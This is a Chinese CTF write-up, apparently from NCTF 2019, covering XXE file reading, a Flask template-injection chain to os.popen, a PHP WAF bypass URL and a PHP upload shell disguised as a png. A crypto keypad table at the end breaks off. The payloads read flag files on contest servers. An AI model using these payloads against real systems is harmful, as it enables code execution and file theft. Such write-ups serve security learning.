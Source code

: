 ## Fake XML cookbook

存在xxe，直接[file:///flag](file:///flag)读文件

## Flask

￼简单的flask模板注入

输入{{10*10}}发现被执行，确定漏洞存在

寻找基类

`''.__class__.__mro__`

发现object

寻找可用引用

`''.__class__.__mro__[2].__subclasses__()`

发现(40)‘file’有文件包含,(59)'site._printer'存在os模块

`         ''.__class__.__mro__[2].__subclasses__().__init__.func_globals.linecache.os.popen('ls ..')  `

发现flag,但过滤了'flag’字符

payload

`{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('cat ../fla?‘).read()}}`

## easyphp

共3层waf，第一层%0a绕过，第二层md5绕过，第三层 如下

payload:

`http://nctf2019.x1ct34m.com:60005/?num=23333%0a&str1=240610708&str2=1286853053925714567935187&q.w.q=nl f*`

## Upload your Shell

在handler.php页面发现上传点，burp抓包测试，并且在/js/目录下发现fileupload.js,发现3层waf，content-type必须是image*/，后缀为白名单jpg,png,gif，内容不得出现<?。因此上传png，并在结尾加上脚本`<script language='php'>system('cat /flag');</script>`，抓包上传，得到flag文件位置，使用action=包含

# Crypto

## Keyboard

有八个字母，9键输入法我吐啦

```python
tab={
    '2': 'a',
    '22': 'b',
    '222': 'c',
    '2222':' ',
    '3': 'd',
    '33': 'e',
    '333': 'f',
    '3333':' ',
    '4': 'g',
    '44': 'h',
    '444': 'i',
    '4444':' ',
```